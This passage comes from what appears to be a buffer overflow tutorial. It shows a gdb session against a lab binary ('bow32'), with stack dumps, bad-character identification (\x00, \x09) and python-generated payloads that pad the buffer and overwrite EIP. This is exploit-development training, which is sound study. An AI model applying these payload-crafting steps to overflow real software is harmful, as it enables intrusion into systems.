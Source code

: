 #### The Stack

The Stack

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x09" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```

Here it depends on our bytes' correct order in the variable `CHARS` to see if any character changes, interrupts, or skips the order. Now we recognize that after the "`\x08`", we encounter the "`\x00`" instead of the "`\x09`" as expected. This tells us that this character is not allowed here and must be removed accordingly.

#### Notes

Notes

```shell-session
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 254 - 4) = 782	

# "\x00" & "\x09" removed: 256 - 2 = 254 bytes
 CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff" 
 
   EIP = "\x66" * 4
```

#### Send CHARS - Without "\x00" & "\x09"

Send CHARS - Without "\x00" & "\x09"

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```

#### The Stack

The Stack

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x0a" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```
